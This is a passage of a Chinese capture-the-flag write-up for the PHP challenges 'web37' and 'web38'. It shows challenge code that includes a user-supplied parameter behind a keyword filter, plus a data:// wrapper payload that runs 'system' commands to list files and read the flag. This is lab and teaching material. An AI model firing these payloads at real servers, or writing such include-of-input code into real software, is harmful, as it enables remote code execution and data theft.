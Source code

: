 ## web37~data协议

```php
<?php

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
} 
```

过滤了flag ，又是 include 文件包含

利用伪协议读flag

```
data://，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行
```

payload:

```
/?c=data://text/plain,<?php system(ls);
# https://www.php.net/manual/zh/wrappers.data.php

?c=data://text/plain,<?php system('cat f*');
```

## web38~data协议

```php
 <?php

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
} 
```
